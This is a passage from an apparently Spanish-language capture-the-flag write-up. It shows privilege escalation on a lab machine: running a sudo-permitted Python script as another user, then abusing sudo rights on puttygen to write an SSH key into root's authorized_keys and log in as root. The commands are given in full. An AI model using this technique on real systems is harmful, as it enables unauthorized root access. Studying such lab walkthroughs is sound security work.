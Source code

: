 ### vicepresidente

Siendo el usuario "vicepresidente" ejecutamos `sudo -l` y vemos que podemos ejecutar con python3 un script en `/var/backups/script.py` , lo ejecutamos con `sudo -u presidente /usr/bin/python3 /var/backups/script.py` y logramos pasar al usuario presidente

### presidente

Siendo el usuario "presidente" vemos que podemos ejecutar el binario "puttygen" como root. Sabiendo esto haremos lo siguiente: Primero ejecutamos el siguiente comando

```css
puttygen -t rsa -o id_rsa -O private-openssh
```

esto nos generara una llave para el ssh la cual podremos usar.

La guardamos en `/root/.ssh/authorized_keys`

```css
sudo -u root /usr/bin/puttygen id_rsa -o /root/.ssh/authorized_keys -O public-openssh
```

Le damos permiso de ejecución con `chmod 600 id_rsa` y finalmente la usamos con `ssh -i id_rsa root@localhost` y listo, somos root

![root](../../../maquina-corruptress/imagenes/root.png)
